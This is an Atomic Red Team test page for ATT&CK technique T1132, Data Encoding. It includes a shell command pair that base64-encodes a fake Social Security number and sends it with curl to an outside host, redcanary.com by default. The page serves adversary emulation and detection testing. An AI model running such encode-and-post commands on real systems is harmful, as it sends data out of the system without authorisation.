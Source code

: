 # T1132 - Data Encoding

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1132)

<blockquote>Command and control (C2) information is encoded using a standard data encoding system. Use of data encoding may be to adhere to existing protocol specifications and includes use of ASCII, Unicode, Base64,  MIME, UTF-8, or other binary-to-text and character encoding systems. (Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)

<br/>

## Atomic Test #1 - Base64 Encoded data.

Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|

#### Attack Commands: Run with `sh`!

```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```

<br/>
